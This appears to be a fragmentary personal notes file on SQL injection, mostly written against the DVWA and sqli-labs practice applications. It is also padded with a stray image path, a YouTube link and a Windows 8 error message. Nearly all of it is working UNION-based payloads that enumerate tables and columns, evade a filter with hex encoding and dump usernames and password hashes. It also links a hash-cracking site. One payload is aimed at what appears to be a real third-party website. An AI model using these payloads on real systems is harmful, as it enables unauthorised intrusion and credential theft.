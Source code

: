 https://www.youtube.com/watch?v=qIQgWilJfA0

this app can't run on your pc windows 8

Win 8.1 This app can't run on your PC


SQL Integer 
comments
--

select group_concat(table_name) from information_schema.tables where table_schema=database()

select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'

4.Find the table names
id=1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
--&Submit=Submit


5.Find the column names tables
id=1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'--&Submit=Submit

http://192.168.0.111/testme/vulnerabilities/sqli/?id=1' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'--+&Submit=Submit#

//Medium ==> change users to hexCode 
id=1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273--&Submit=Submit


6. dump data from column


http://192.168.0.111/testme/vulnerabilities/sqli/?id=1' union select group_concat(user, 0x3a3a, password, '<br/>'),null from users--+&Submit=Submit#
id=1 union select group_concat(user, 0x3a3a, password, 0x3c62722f3e),null from users--&Submit=Submit

https://hashkiller.co.uk/md5-decrypter.aspx


http://localhost/sqli-labs-master/Less-1/?id=900'union select 1111,version(),33333--+

http://localhost/sqli-labs-master/Less-2/?id=9999 union select 111,222,version()--


Lesson 3 ==>
MySQL server version for the right syntax to use near ''3'') LIMIT 0,1' at line 1
seemed like they $input is used as ('$input') ==> so to pass that use ') and to bypass 

http://localhost/sqli-labs-master/Less-3?id=999') union select 1,2,version()--+


http://localhost/sqli-labs-master/Less-4?id=999")union select 1,2,version()--+


http://www.romanianwriters.ro/s.php?id=999' union select 1,2,group_concat(table_name)  from information_schema.tables where table_schema='romanian_svc'--+
